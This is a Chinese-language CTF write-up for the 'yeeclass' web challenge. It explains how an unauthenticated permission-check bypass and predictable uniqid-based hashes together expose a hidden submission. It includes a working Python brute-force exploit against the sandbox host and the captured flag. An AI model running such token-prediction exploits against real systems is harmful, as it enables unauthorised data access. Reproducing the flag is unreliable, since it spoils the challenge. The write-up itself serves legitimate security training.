

### 题目名称：yeeclass

题目来源：CTFHub（原题：2022-HitCon-Web-yeeclass）

题目类别：Web

题目描述：Due to the security concerns, we are going to phase out the old LMS system. We have developed a new E-learning system called "yeeclass", please give it a try!



附件：[Ch-file-wp05.zip](Ch-file-wp05.zip)

### 解题思路

这道题是一个课程作业提交系统。flag 由初始化脚本写进数据库：容器启动时创建一个 flagholder 用户，再以它的名义往 1 号作业提交一条内容为 flag 的记录。所以要拿到 flag，就得读到那条提交。

读提交的入口是 submission.php?hash=xxx，这一段没有任何权限判断，只要 hash 对就能读。难点在于 hash 从哪来。

根据dsh，这题有两处问题可以串起来用。

第一处是列表页的权限判断。submission.php?homeworkid=x 会先检查 $_SESSION["userclass"] < PERM_TA && !$result["public"]，但未登录时 $_SESSION["userclass"] 根本没有设置，取出来是 null，而 null 参与比较会被当成 0，0 < 0 是 false，于是 && 左边为假，整条判断被短路跳过。结果是未登录反而能列出所有作业的提交，登录成学生反而被拦住，因为 -1 < 0 为真。

第二处是 hash 的生成方式。hash 是 sha1(uniqid($username."_"))，而 uniqid 不是随机数，它的返回值是「前缀 + 秒的十六进制 8 位 + 微秒的十六进制 5 位」。只要知道时间，就能把这个 id 完整推出来。

两点接起来就是完整的链：未登录读到 flagholder 那条提交的时间戳（精确到微秒），再用时间戳反推 uniqid，算 sha1 去访问。要注意的是数据库记录的时间戳来自 CURRENT_TIMESTAMP(6)，比 uniqid 的生成时间稍晚一点点，所以微秒要往前枚举一小段。

另外有个坑：容器时区不是 UTC，页面上显示的时间比 UTC 快 8 小时，换算 epoch 时要把这 8 小时减掉。

### 详细步骤

1. 看源码，flag 是在初始化脚本里种进去的。启动时创建 flagholder 用户，然后用 uniqid 生成 id，把 sha1(id) 作为提交的 hash，把 FLAG 环境变量作为 content，插进 homeworkid = 1 的记录里

    $username = "flagholder";
    $id = uniqid($username."_");
    INSERT INTO submission (`hash`, userid, homeworkid, score, content)
      VALUES (sha1($id), ..., 1, 100, $_ENV["FLAG"]);

2. 看读提交的分支。submission.php 的 view 模式只有一句 WHERE s.`hash`=?，没有 userclass 也没有 public 的判断，说明只要 hash 对，谁都能读

3. 看列表分支的权限判断，发现短路问题

    if ($_SESSION["userclass"] < PERM_TA && !$result["public"])

   未登录时 $_SESSION["userclass"] 是 null，null < 0 为假，&& 被短路，整条判断失效

4. 验证这个短路。未登录访问列表是 200，登录成学生再访问同一个地址变成 403 No permission

5. 未登录读 1 号作业的提交列表，拿到 flagholder 那条的时间戳

    2026-10-27 17:55:36.314712

6. 标定时区。注册一个账号，往 2 号作业提交一次，拿到自己的提交时间和 hash，在本地反推出自己的 uniqid，看它的秒落在哪个 epoch，由此确定偏移是 +28800 秒（容器是东八区）。标定出来的间隙是 36 微秒，说明 uniqid 确实比 INSERT 早一点点

7. 按偏移把 flagholder 的时间换算成真实 epoch

    2026-10-27 17:55:36.314712
    -> epoch 1793094936（0x6ae07518），微秒 314712

8. 枚举微秒，拼出 uniqid 再算 sha1，拿去访问 submission.php?hash=

    候选 = "flagholder_" + "%08x" % epoch + "%05x" % 微秒
    hash = sha1(候选)

   注意并发不要开太高。这台机器靠 QoS 压流量，并发高了会有一部分请求拿不到正常响应，导致明明在范围内却扫空

9. 命中微秒 0x4ccec = 314588，比数据库记录的 314712 早 124 微秒，页面 pre 标签里就是 flag，获得flag

### Payload

```python
import re, hashlib, calendar, http.client
from concurrent.futures import ThreadPoolExecutor

HOST = "challenge-04d25557b36c9651.sandbox.ctfhub.com"
PORT = 10800
USERNAME = "flagholder"
TZ_OFFSET = 28800          # 容器是东八区，页面上显示的时间比 UTC 快 8 小时

def get(path):
    c = http.client.HTTPConnection(HOST, PORT, timeout=10)
    try:
        c.request("GET", path, headers={"User-Agent": "Mozilla/5.0"})
        r = c.getresponse()
        return r.status, r.read().decode("utf-8", "replace")
    finally:
        c.close()

# 未登录读列表，拿 flagholder 的提交时间
st, html = get("/submission.php?homeworkid=1")
ts = re.findall(r"(\d{4}-\d{2}-\d{2} \d{2}:\d{2}:\d{2}\.\d+)", html)[0]
dp, frac = ts.split(".")
y, mo, d = map(int, dp.split(" ")[0].split("-"))
hh, mi, ss = map(int, dp.split(" ")[1].split(":"))
usec = int(frac.ljust(6, "0"))
epoch = calendar.timegm((y, mo, d, hh, mi, ss, 0, 0, 0)) - TZ_OFFSET
print("时间", ts, "-> epoch", epoch, hex(epoch), "微秒", usec)

def check(u):
    uid = "%s_%08x%05x" % (USERNAME, epoch, u)
    h = hashlib.sha1(uid.encode()).hexdigest()
    st, body = get("/submission.php?hash=" + h)
    if st == 200 and "Submission not found" not in body:
        return uid, re.findall(r"<pre>(.*?)</pre>", body, re.S)[0]
    return None

with ThreadPoolExecutor(10) as ex:
    for res in ex.map(check, range(usec, usec - 5000, -1)):
        if res:
            print("uniqid =", res[0])
            print("flag   =", res[1])
            break
```

### flag

ctfhub{6d7ac881dc967fe5a0531764}

### 总结&反思

我再也不开这种题了，wp我自己都没看到干了什么。我开简单题了。
